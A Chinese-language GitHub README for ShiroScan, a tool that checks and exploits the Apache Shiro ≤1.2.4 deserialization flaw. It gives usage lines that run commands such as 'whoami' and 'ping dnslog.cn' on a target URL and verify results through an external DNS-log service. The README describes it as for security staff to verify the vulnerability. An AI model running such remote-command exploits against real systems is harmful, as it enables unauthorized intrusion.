 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

* 如果有帮助，请点个star
* pip3 install -r requirments.txt     
* Usage：python check_shiro.py //批量检测是否使用了shiro组件
* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
